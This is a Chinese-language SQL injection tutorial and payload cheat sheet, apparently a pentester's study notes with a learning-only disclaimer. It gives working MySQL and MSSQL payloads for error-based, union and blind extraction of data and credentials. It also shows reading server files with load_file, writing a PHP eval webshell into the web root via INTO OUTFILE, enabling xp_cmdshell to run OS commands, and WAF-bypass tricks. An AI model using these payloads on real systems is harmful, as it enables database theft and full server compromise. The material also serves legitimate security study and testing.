



# SQLi

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* [注入检测](#注入检测)

* [注入类型](#注入类型)
    * [基于响应类型](#基于响应类型)
        * [报错](#报错)
        * [联合查询](#联合查询)
        * [堆叠注入](#堆叠注入)
        * [盲注](#盲注)
            * [基于布尔](#基于布尔)
            * [基于时间](#基于时间)
    * [基于数据类型](#基于数据类型)
        * [字符型](#字符型)
        * [数字型](#数字型)
        * [搜索型](#搜索型)
    * [基于语句类型](#基于语句类型)
        * [插入型](#插入型)
        * [删除型](#删除型)
    * [基于程度和顺序](#基于程度和顺序)
        * [一阶注入](#一阶注入)
        * [二阶注入](#二阶注入)
    * [基于注入点的位置](#基于注入点的位置)
        * [UA注入](#ua注入)

* [数据库类型](#数据库类型)
    * [MySQL](#mysql)
    * [MSSQL](#mssql)
    * [Oracle](#oracle)

---

**教程**
- [SQL 注入 - CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/web/sqli/)
- [Beyond SQLi: Obfuscate and Bypass](https://www.exploit-db.com/papers/17934)
- [ning1022/SQLInjectionWiki](https://github.com/ning1022/SQLInjectionWiki/)

**payload**
- [trietptm/SQL-Injection-Payloads](https://github.com/trietptm/SQL-Injection-Payloads)

**在线 SQLi 测试**
- http://demo.testfire.net/
- https://juice-shop.herokuapp.com/#/search
- https://sqlchop.chaitin.cn/demo/

**靶场**
- [sqli-labs](../靶场/sqli-labs-WalkThrough.md)

**辅助工具**
- sqlmap
    - [sqlmap 笔记](../../../安全工具/Sqlmap.md)
- [TheKingOfDuck/MySQLMonitor](https://github.com/TheKingOfDuck/MySQLMonitor) - MySQL 实时监控工具(代码审计/黑盒/白盒审计辅助工具)

**常用语句**
- [Mysql常用语句](../../../../Integrated/数据库/笔记/Mysql常用语句.md)

---

**SQL 注入常规利用思路**
```
1. 寻找注入点,可以通过 web 扫描工具实现
2. 通过注入点,尝试获得关于连接数据库用户名、数据库名称、连接数据库用户权限、操作系统信息、数据库版本等相关信息.
3. 猜解关键数据库表及其重要字段与内容(常见如存放管理员账户的表名、字段名等信息)
4. 可以通过获得的用户信息,寻找后台登录.
5. 利用后台或了解的进一步信息,上传 webshell 或向数据库写入一句话木马,以进一步提权,直到拿到服务器权限.
```

**注入的分类**

- 基于响应类型
    - 报错
    - 联合查询
    - 堆叠注入
    - 盲注
        - 基于布尔
        - 基于时间

- 基于数据类型
    - 字符型
    - 数字型
    - 搜索型

- 基于语句类型
    - 查询型
    - 插入型
    - 删除型

- 基于程度和顺序
    - 一阶注入 : 指输入的注入语句对 WEB 直接产生了影响，出现了结果；
    - 二阶注入 : 类似存储型 XSS，是指输入提交的语句，无法直接对 WEB 应用程序产生影响，通过其它的辅助间接的对 WEB 产生危害，这样的就被称为是二阶注入.

- 基于注入点的位置
    - 通过用户输入的表单域的注入
    - 通过 cookie 注入
    - 通过服务器变量注入 : 例如基于头部信息的注入

---

## 注入检测

可以通过多种方式检测注入。其中最简单的方法是在各种参数后添加 `'` 或 `"` 从而得到一个从 Web 服务器返回的数据库报错信息。

**找注入点**

- GET - HTTP Request

    在常见的 HTTP GET 请求（以及大多数请求类型）中，有一些常见的注入点。例如：网址参数（下面的请求的 id），Cookie，host 以及任何自定义 headers 信息。然而，HTTP 请求中的任何内容都可能容易受到 SQL 注入的攻击。
    ```
    GET /?id=homePage HTTP/1.1      <-----注入点
    Host: www.xxx.com
    Connection: close
    Cache-Control: max-age=0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
    Upgrade-Insecure-Requests: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    X-Server-Name: xxxx             <-----注入点
    Cookie: user=xxxxx;             <-----注入点
    ```

- POST - Form Data

    在具有 Content-Type 为 application/x-www-form-urlencoded 的标准 HTTP POST 请求中，注入将类似于 GET 请求中的 URL 参数。它们位 于HTTP 头信息下方，但仍可以用相同的方式进行利用。
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 39
    username=xxx&email=xxx@xxx.com  <-----注入点
    ```

- POST - JSON

    在具有 Content-Type 为 application/json 的标准 HTTP POST 请求中，注入通常是 JSON{"key":"value"} 对的值。该值也可以是数组或对象。虽然符号是不同的，但值可以像所有其他参数一样注入。（提示：尝试使用 `'`，但要确保 JSON 使用双引号，否则可能会破坏请求格式。）
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/json
    Content-Length: 56
    {
    "username":"xxx",               <-----注入点
    "email":"xxx@xxx.com"           <-----注入点
    }
    ```

- POST - XML

    在具有 Content-Type 为 application/xml 的标准 HTTP POST 请求中，注入通常在一个内部。虽然符号是不同的，但值可以像所有其他参数一样注入。（提示：尝试使用 `'`）
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/xml
    Content-Length: 79
    <root>
    <username>xxxxx</username>      <-----注入点
    <email>xxx@xxx.com</email>      <-----注入点
    </root>
    ```

**检测注入**

通过在应用程序中触发错误和布尔逻辑，可以最轻松地检测易受攻击的参数。提供格式错误的查询将触发错误，并且使用各种布尔逻辑语句发送有效查询将触发来自Web服务器的不同响应。

> 注：True 或 False 语句应通过 HTTP 状态码或 HTML 内容返回不同的响应。如果这些响应与查询的 True/False 性质一致，则表示存在注入。

- 逻辑测试
    - 1.php?id=1 or 1=1 -- true
    - 1.php?id=1' or 1=1 -- true
    - 1.php?id=1" or 1=1 -- true
    - 1.php?id=1 and 1=2 -- false
- 算术
    - 1.php?id=1/1 -- true
    - 1.php?id=1/0 -- false
- 基于盲注
- 基于错误

**判断数据库类型**

- 注释符判断 `/*` 是 MySQL 中的注释符，返回错误说明该注入点不是 MySQL，继续提交如下查询字符：`-` 是 Oracle 和 MSSQL 支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：;是子句查询标识符，Oracle 不支持多行查询，因此如果返回错误，则说明很可能是 Oracle 数据库。
- 函数判断 `and (select count()from MSysAccessObjects)>0` 返回正常说明是 access 数据库, `and (select count()from sysobjects)>0` 返回正常说明是 mssql 数据库 `and length(user())>10` 返回正常说明是 Mysql Oracle 可以根据 from dual 虚拟库判断

---

## 注入类型

### 基于响应类型

#### 报错

**floor() rand() group by**
```sql
Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;
-- 处有三个点，一是需要 concat 计数，二是 floor，取得 0 or 1，进行数据的重复，三是 group by 进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为 mysql 的 bug 的问题。但是此处需要将 rand(0)，rand() 需要多试几次才行。

-- 以上语句可以简化成如下的形式。
select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))

-- 如果关键的表被禁用了，可以使用这种形式
select count(*) from (select 1 union select null union
select !1) group by concat(version(),floor(rand(0)*2))

-- 如果 rand 被禁用了可以使用用户变量来报错
select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
```

**double 数值类型超出范围**
- https://www.cnblogs.com/lcamry/articles/5509124.html

```sql
select exp(~(select * FROM(SELECT USER())a))
```

**bigint 溢出**
- https://www.cnblogs.com/lcamry/articles/5509112.html

```sql
select !(select * from (select user())x) -
```

**xpath 函数报错注入**

- **updatexml()**

    updatexml 在执行时，第二个参数应该为合法的 XPATH 路径，否则会在引发报错的同时将传入的参数进行输出

    构造方式 ：`http://url?id=1' or updatexml(1,concat(0x7e,(select 字段 from 表名)),1)#`
    ```sql
    updatexml(1,concat(0x3a,(select database())),1)
    ```

- **extractvalue()**

    ```sql
    extractvalue(1,concat(0x7e,(select database()),0x7e))
    ```

**重复特性**
```sql
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
-- mysql 重复特性，此处重复了 version，所以报错。
```

---

#### 联合查询

**union**
```sql
-- 查询数据库信息
union select 1,database()
--查询所有数据库名
union SELECT group_concat(schema_name),2 FROM INFORMATION_SCHEMA.SCHEMATA
--爆出所有数据库
SELECT group_concat(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA
--查数据库名为fanke下面的表名(16进制编码)
union select 1,table_name,3,4,5 from information_schema.tables where table_schema=0x66616E6B65

-- 查user表名下的列名信息
union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name=0x75736572
    -- column_name：列名
-- 查user表名下列名username,password的数据
union select 1,username,password,4,5 from user
```

---

#### 堆叠注入


---

#### 盲注

**相关文章**
- [sql 盲注之正则表达式攻击](https://www.cnblogs.com/lcamry/articles/5717442.html)
- [MYSQL注入天书之盲注讲解](https://www.cnblogs.com/lcamry/p/5763129.html)

##### 基于布尔

**Left()**
```sql
-- 爆库名
left(database(),1)>'a'      -- 查看数据库名第一位
left(database(),1)>'s'      -- left(a,b)从左侧截取a的前b位
left(database(),2)>'ab'     -- 查看数据库名前二位。
-- 同样的 string 可以为自行构造的 sql 语句。
```

**Substr()**
```sql
-- 爆库名
substr(DATABASE(),1,1)>'a'  -- 查看数据库名第一位
substr(DATABASE(),2,1)      -- 查看数据库名第二位，依次查看各位字符
substr((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>'a'          -- 此处 string 参数可以为 sql 语句，可自行构造 sql 语句进行注入。
```

**ascii()**
```sql
-- 爆库名
ascii(substr((select table_name from information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+    -- substr(a,b,c)从b位置开始，截取字符串a的c长度。Ascii()将某个字符转换为ascii值

ascii(substr((select database()),1,1))=98
```

**mid()**
```sql
-- 爆库名
MID(DATABASE(),1,1)>'a' -- 查看数据库名第一位
MID(DATABASE(),2,1)     -- 查看数据库名第二位，依次查看各位字符。

MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>'a'           -- 此处 column_name 参数可以为 sql 语句，可自行构造 sql 语句进行注入。
```

**ord()**
```sql
-- 爆库名
ORD(MID(DATABASE(),1,1))>114
ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23
```

**regexp()**
```sql
-- 爆用户
1 and 1=(if((user() regexp '^[a-z]'),1,0));
-- user()结果为root，regexp为匹配root的正则表达式。
1 and 1=(if((user() regexp '^r[a-z]'),1,0));

-- 爆 security 库的表名
1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);
-- '^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' -> '^user[a-z]' -> FALSE
```

table_name 有好几个，我们只得到了一个 user，如何知道其他的？

这里可能会有人认为使用 limit 0，1 改为 limit 1,1。

但是这种做法是错误的，limit 作用在前面的 select 语句中，而不是 regexp。那我们该如何选择。其实在 regexp 中我们是取匹配 table_name 中的内容，只要 table_name 中有的内容，我们用 regexp 都能够匹配到。因此上述语句不仅仅可以选择 user，还可以匹配其他项。

**like**

和 regexp 类似，mysql 在匹配的时候我们可以用 like 进行匹配。
```sql
-- 爆用户
1 and 1=(select user() like 'r%')
1 and 1=(select user() like 'ro%')
```

##### 基于时间

**sleep()**
```sql
If(ascii(substr(database(),1,1))>115,0,sleep(5)) %23
-- if判断语句，条件为假，执行 sleep
```

**benchmark()**
```sql
UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM (select database() as current) as tb1;
-- BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()
```

---

### 基于数据类型

#### 字符型

**宽字节注入**

- 1.php?id='1%df反斜杠' (其中反斜杠为%5c,%df%5c在GBK编码下可以变成'蓮' 类似于这个字) 变成 1.php?id='1蓮'
- 将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。
- 宽字节注入的修复方案

**URLDecode二次注入**

- 浏览器编码完之后WebServer会自动解码的，如果后端程序误用urldecode函数会造成此类情况(1.php?id=1%2527==>(WebServer)1.php?id=1%27==>(urldecode)1.php?id=1')

#### 数字型


#### 搜索型


### 基于语句类型

#### 插入型


#### 删除型


---

### 基于程度和顺序

#### 一阶注入


#### 二阶注入

**案例**
- [WooYun-2015-157024 百度某系统SQL注入到Getshell](https://php.mengsec.com/bugs/wooyun-2015-0157024.html)

---

### 基于注入点的位置

#### UA注入

**相关文章**
- [User Agent注入攻击及防御](https://www.jianshu.com/p/99fbb931c4b4)

**案例**
- [m.17u.cn一处SQL注入](https://sec.ly.com/bugdetail?id=009063229194078153174131073236159115161105151152)

---

## 攻击类型

### 导入导出

**相关文章**
- [MYSQL注入天书之导入导出介绍](https://www.cnblogs.com/lcamry/p/5763111.html)

### 导出文件

**load_file()**

条件:
1. 必须有权限读取并且文件必须完全可读
2. 读取文件必须在服务器上
3. 必须指定文件完整的路径
4. 读取文件必须小于 max_allowed_packet

如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。比较难满足的就是权限，在 windows 下，如果 NTFS 设置得当，是不能读取相关的文件的，当遇到只有 administrators 才能访问的文件，users 就别想 load_file 出来。

```sql
Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))

-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))
-- Explain："char(99,58,47,98,111,111,116,46,105,110,105)"就是"c:/boot.ini"的ASCII代码

-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)
-- Explain："c:/boot.ini"的16进制是"0x633a2f626f6f742e696e69"

-1 union select 1,1,1,load_file(c:\\boot.ini)
-- Explain:路径里的/用 \\代替
```

### 导入到数据库

**LOAD DATA INFILE**

在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用 load data infile 导入到数据库中。

```sql
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
-- 将 /tmp/t0.txt 导入到 t0 表中，character set gbk 是字符集设置为 gbk，fields terminated by 是每一项数据之间的分隔符，lines terminated by 是行的结尾符。
```

当错误代码是 2 的时候的时候，文件不存在，错误代码为 13 的时候是没有权限，可以考虑 /tmp 等文件夹。

### 导入到文件

**SELECT.....INTO OUTFILE 'file_name'**

可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此你必须拥有 FILE 权限，才能使用此语法。file_name 不能是一个已经存在的文件。
```sql
Select  <?php @eval($_post["mima"])?>  into outfile "c:\\phpnow\\htdocs\\test.php"

Select version() Into outfile "c:\\phpnow\\htdocs\\test.php" LINES TERMINATED BY 0x16进制文件
-- 通常是用'\r\n'结尾，此处我们修改为自己想要的任何文件。同时可以用FIELDS TERMINATED BY
```

---

## 数据库类型

找出目标数据库的具体类型对于 SQL 注入非常关键。

> 注意：注释字符 -- 放置在查询后面，以删除查询后面的任何命令，有助于防止出现错误。

### MySQL

> PHP应用程序通常具有MySQL数据库。

**资源**
- [aleenzz/MSSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)

**注释**
```sql
--
#
/* */ 多行注释
```

**正则表达式攻击**

在 MYSQL 5+ 中 information_schema 库中存储了所有的库名，表名以及字段名信息。

1. 判断第一个表名的第一个字符是否是 a-z 中的字符,其中 blind_sqli 是假设已知的库名。

> 注：正则表达式中 `^[a-z]` 表示字符串中开始字符是在 a-z 范围内

```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*
```

2. 判断第一个字符是否是 a-n 中的字符
```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*
```

3. 确定该字符为 n
```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n[a-z]' LIMIT 0,1) /*
```

4. 表达式的更换如下
```sql
expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE
```

这时说明表名为 news ，要验证是否是该表名 正则表达式为 `'^news$'`，但是没这必要 直接判断 table_name = 'news' 即可。

5. 接下来猜解其它表了

regexp 匹配的时候会在所有的项都进行匹配。例如：security 数据库的表有多个，users，email 等
```sql
select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1);     -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);    -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1);    -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1);    -- 不正确

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1);    -- 不正确
```

实验表名：在 limit 0,1 下，regexp 会匹配所有的项。我们在使用 regexp 时，要注意有可能有多个项，同时要一个个字符去爆破。类似于上述第一条和第二条。而 limit 0,1 对于 where table_schema='security' limit 0,1 来说 table_schema='security' 已经起到了限定作用了，limit 有没有已经不重要了。

---

### MSSQL

> 基于ASP / ASPX的应用程序一般都是MSSQL。

**资源**
- [aleenzz/MYSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI)

**基本参数**
```sql
@@version       // 数据库版本
user            // 获取当前数据库用户名
db_name()       // 当前数据库名 其中db_name(N)可以来遍历其他数据库
;select user    // 查询是否支持多语句
@@servername    // 服务器名称
```

**正则表达式攻击**

MSSQL所用的正则表达式并不是标准正则表达式 ，该表达式使用 like 关键词
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )
```

该查询语句中，select top 1 是一个组合，不要看错了。

如果要查询其它的表名，由于不能像 mysql 那样用 limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前 x 行里，其实查询的就是第 x+1 行。

例如查询第二行的表名：
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )
```

表达式的顺序：
```
'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE
```

之所以表达式 news[a-z] 查询后返回正确是应为 % 代表 0-n 个字符，使用 "_" 则只能代表一个字符。故确认后续是否还有字符可用如下表达式
```
'news%' TRUE -> 'news_' FALSE
```

同理可以用相同的方法获取字段，值。这里就不再详细描述了。

**xp_cmdshell**
```sql
-- SQL Server 阻止了对组件 ‘xp_cmdshell’ 的 过程’sys.xp_cmdshell’ 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用 ‘xp_cmdshell’。有关启用 ‘xp_cmdshell’ 的详细信息，请参阅 SQL Server 联机丛书中的 “外围应用配置器”。

-- 关闭
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;
-- 开启
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```
```sql
-- 标记message: 配置选项 ‘xp_cmdshell’ 不存在，也可能是高级选
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'user connections',1;RECONFIGURE;--
```

```sql
exec master..xp_cmdshell 'cmd /c whoami'
```

---

### Oracle

> JSP应用程序通常具有Oracle数据库。

---

### H2 database

**相关文章**
- [一步一步教你漏洞挖掘之某系统从H2 database SQL注入漏洞到RCE回显构造](https://mp.weixin.qq.com/s/fZFNj2T0IITL8-9na_AWTQ)

---

## 绕过技巧


### MYSQL

**关键词被替换**

双写或者大小写绕过
```
seselectlect
SElect
```

**参数和 union 之间的位置**
- `\Nunion` 的形式

    

- 浮点数的形式如 1.1,8.0

    

- 8e0 的形式

    

- 利用 `/*!50000*/` 的形式

    

**union 和 select 之前的位置**
- 空白字符

    Mysql 中可以利用的空白字符有:%09,%0a,%0b,%0c,%0d,%a0;

- 注释

    MYSQL中可以利用的空白字符有:
    ```
    /**/
    /*letmetest*/
    ```

- 使用括号

    

**union select 后的位置**
- 空白字符
- 注释
- 括号:select(1)from

    

- 减号:

    

- 加号:

    

- `~` 号:

    

- `!` 号:

    

- `@` 形式

    

- `*` 号,利用 /*!50000*/ 的形式

    

- 单引号和双引号:

    

- `{` 括号:

    

- `\N` 符号:

    

**select from 之间的位置**
- 空白字符
- 注释
- ``

    

- `+,-,!,~,’"`

    

- `*` 号

    

- `{` 号

    

- `(` 号

    

**select from 之后的位置**
- 空白字符
- 注释
- `` 号

    

- `*` 号

    

- `{` 号

    

- 括号

    

**过滤函数**
- 字符串截取函数
    ```sql
    Mid(version(),1,1)
    Substr(version(),1,1)
    Substring(version(),1,1)
    Lpad(version(),1,1)
    Rpad(version(),1,1)
    Left(version(),1)
    reverse(right(reverse(version()),1)
    ```

- 字符串连接函数
    ```sql
    concat(version(),'|',user());
    concat_ws('|',1,2,3)
    ```

- 字符转换
    ```
    Char(49)
    Hex(‘a’)
    Unhex(61)
    Ascii(1)
    ```

**过滤了逗号**
- limit 处的逗号

    ```
    limit 1 offset 0
    ```

- 字符串截取处的逗号

    ```
    mid(version() from 1 for 1)
    ```

- union 处的逗号

    通过 join 拼接.

    

---

### sqlserver

**select from 后的位置**
- 空白符号
    ```
    01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
    ```
    需要做 urlencode,sqlserver 中的表示空白字符比较多,靠黑名单去阻断一般不合适.

- 注释符号

    Mssql 也可以使用注释符号 `/**/`

- `.` 符号

    

- `:` 号

    

**select from 之间的位置**
- 空白符号
- 注释符号
- `:` 号

**and 之后的位置**
- 空白符号
- 注释符号
- `:` 号
- `%2b` 号

    

**常见过滤函数**
- 字符串截取函数
    ```
    Substring(@@version,1,1)
    Left(@@version,1)
    Right(@@version,1)
    ```

- 字符串转换函数
    ```
    Ascii(‘a’) 这里的函数可以在括号之间添加空格的, 一些 waf 过滤不严会导致 bypass
    Char(‘97’)
    ```

- Mssql 支持多语句查询,因此可以使用;结束上面的查询语句,然后执行自己构造的语句.动态执行.

    使用 exec 的方式:

    

    使用 sp_executesql 的方式:

    
